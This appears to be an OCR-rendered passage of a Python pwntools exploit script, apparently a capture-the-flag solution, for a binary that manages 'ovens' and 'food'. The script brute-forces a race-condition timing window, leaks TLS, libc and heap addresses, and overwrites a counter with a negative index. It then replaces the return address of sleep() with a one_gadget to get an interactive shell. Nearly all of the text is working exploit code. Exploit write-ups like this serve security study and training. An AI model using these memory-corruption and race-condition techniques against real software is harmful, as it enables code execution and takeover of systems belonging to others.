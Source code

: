 ``` python
        sleep_time = 0.98 + i / 10000
        sleep(sleep_time)
        remove_food(s, b"1")
        r = insert_food(s, b"1", 60)
        if len(r.split(b"\n")) > 60:
            print(f"success : {sleep_time}")
        s.close()
        print(f'\rProgress: {i} / 10000\r', end='')

def main(port, debug, brute_force):
    if(brute_force):
        brute_force_time(port)
    if(port):
        s = remote("0.0.0.0", port)
        if debug:
            pid = os.popen(f"sudo docker top {CONTAINER} -eo pid,comm | grep {BINARY} | awk '{{print $1}}'").read()
            gdb.attach(int(pid), gs, exe=BINARY, sysroot="./")
    else:
        s = process(BINARY, env={"LD_PRELOAD" : LIBRARY})
        if debug:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    s.recvuntil(b"option: ")
    create_oven(s, b"1111")
    select_oven(s, b"1")

    # information leak
    for _ in range(4):
        insert_food(s, b"1", 12345)
    for _ in range(4):
        remove_food(s, b"1")
    insert_food(s, b"5", 12345, b"A" * 0x20)
    r = insert_food(s, b"5", 12345, b"B" * 0x28)
    tls = u64(r.split(b"A" * 0x20)[1].split(b" ")[0] + b"\x00\x00")
    libc = tls + 0x3940
    heap = u64(r.split(b"B" * 0x28)[2].split(b" ")[0] + b"\x00\x00") - 0x960
    remove_food(s, b"1")
    remove_food(s, b"1")

    # trigger race condition
    insert_food(s, b"1", 1)
    sleep(0.9814)
    remove_food(s, b"1")
    
    # overwrite food_count
    food = 0x7ffff7da5560
    ret_sleep = 0x7ffff75a3ce0
    index = (food - ret_sleep) // 0x50 + 1
    print(insert_food(s, b"1", index * -1))
    
    # overwrite ret of sleep() in thread 3
    one_gadget = 0x583dc
    payload = b"A" * 8
    payload += p64(libc + one_gadget)
    insert_food(s, b"5", 12345, payload)

    s.interactive()

if __name__=='__main__':
    parser = ArgumentParser()
```